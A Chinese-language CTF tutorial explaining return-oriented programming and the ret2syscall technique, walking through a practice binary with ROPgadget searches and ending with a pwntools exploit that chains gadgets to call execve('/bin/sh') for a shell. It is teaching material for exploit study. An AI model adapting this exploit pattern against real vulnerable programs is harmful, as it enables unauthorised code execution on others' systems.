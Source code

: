 <a name="ret2syscall"></a>
# ret2syscall

<a name="19478086"></a>
## ROP原理：

 随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)，其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。**

<a name="b7d7d9a8"></a>
### gadget：

所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。

例如：`pop eax ; ret`

这段代码的作用就是将栈顶的数据弹出给eax，然后再将栈顶的数据作为返回地址返回。

假如我们通过栈溢出将eip覆盖为pop eax的地址，当程序返回的时候就会执行pop eax，将'aaaa'放到eax中，然后执行ret指令，将'bbbb'放入eip寄存器中，然后会执行地址为'bbbb'处的指令，可以看到，bbbb处的指令为xxxx，当执行完xxxx后，继续执行ret指令，然后会返回到cccc指令处，执行xxxx。system函数的本质也是一条条汇编指令的组合，如果我们能找到多个xxxx，ret结构的指令，将其连接在一起，就可以达到执行system函数的效果。

![](https://img-blog.csdnimg.cn/235ef4c7db3c424e9d502314c10d7597.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center#crop=0&crop=0&crop=1&crop=1&id=CmacD&originHeight=641&originWidth=857&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

之所以称之为 ROP，是因为核心在于利用了指令集中的 ret 指令，改变了指令流的执行顺序，我们可以将多个gadget组合到一起，进而可以执行多条汇编指令，从而达到目的。ROP 攻击一般得满足如下条件

- 程序存在溢出，并且可以控制返回地址。
- 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。

<a name="7ca4fde4"></a>
## 例题：

ret2syscall，即通过ROP控制程序执行系统调用，获取 shell。

<a name="562b019f"></a>
### 首先checksec：

![](https://img-blog.csdnimg.cn/2021022122125167.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=sbSJv&originHeight=216&originWidth=1003&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

32位程序，开启了堆栈不可执行。

<a name="f12d506c"></a>
### ida分析：

![](https://img-blog.csdnimg.cn/20210221221334617.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=Tlpr6&originHeight=246&originWidth=695&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

依旧是栈溢出，只不过不存在后门函数，且开启了nx保护，考虑使用ROP来执行系统调用。

<a name="7ac74a4c"></a>
### 关于系统调用的知识：

**Linux 的系统调用通过 int 80h 实现，用系统调用号来区分入口函数**

**应用程序调用系统调用的过程是：**

1、**把系统调用的编号存入 EAX**

2、**把函数参数存入其它通用寄存器**

3、**触发 0x80 号中断（int 0x80）**

那么我们如果希望通过系统调用来获取 shell 就需要把系统调用的参数放入各个寄存器，然后执行 int 0x80 指令就可以了。

<a name="c3e4a8eb"></a>
### 本题思路

想通过系统调用执行：`execve("/bin/sh",NULL,NULL)`（32位程序）

那么 eax 寄存器应该放系统调用号，查看 execve 的系统调用号：

```
 cat /usr/include/asm/unistd_32.h | grep execve
```

![](https://img-blog.csdnimg.cn/20210221221419364.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=PcEwD&originHeight=119&originWidth=579&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

得到 11，转换为 16 进制是 0xb，所以 eax 中应该存放 0xb。

ebx 应该存放想要执行的 /bin/sh 的地址，还有两个参数设置为 0。

所以现在需要做的就是让：

1.  eax=0xb 
2.  ebx=/bin/sh 的地址 
3.  ecx=0 
4.  edx=0 

要让栈顶的值是 0xb 然后可以通过 pop eax 达到目的

用ROPgadget来查找相应的gadget，命令如下：

`ROPgadget --binary rop --only 'pop|ret' | grep 'eax'`

![](https://img-blog.csdnimg.cn/20210221221548702.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=YwHq7&originHeight=184&originWidth=1025&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到地址为：0x080bb196

类似的，通过这条命令寻找控制其他寄存器的地址，我们发现0x0806eb90位置存在一个gadget可以控制ebx，ecx，edx寄存器，所以我们选择这一条。

![](https://img-blog.csdnimg.cn/20210221221607494.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=FFySo&originHeight=738&originWidth=1031&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

同时使用：`ROPgadget --binary rop --string '/bin/sh'` 找到 '/bin/sh' 字符串在什么地方

![](https://img-blog.csdnimg.cn/20210221221624306.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=nTAFz&originHeight=148&originWidth=1000&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

以及需要的 int 0x80：`ROPgadget --binary rop --only 'int'`

![](https://img-blog.csdnimg.cn/20210221221643242.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=c2Vhd&originHeight=188&originWidth=1024&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

确定偏移的长度为112.

<a name="5af9901f"></a>
### 执行过程：

![](https://img-blog.csdnimg.cn/20210221221655167.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=Xs5qo&originHeight=615&originWidth=937&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

<a name="68333f9d"></a>
### 编写exp：

```python
from pwn import *
p=process('./rop')
int_addr=0x8049421
bin_sh_addr=0x80be408
pop_other_ret=0x806eb90
pop_eax_ret=0x80bb196
payload='a'*112+p32(pop_eax_ret)+p32(0xb)+p32(pop_other_ret)+p32(0)+p32(0)+p32(bin_sh_addr)+p32(int_addr)
p.sendline(payload)
p.interactive()
```
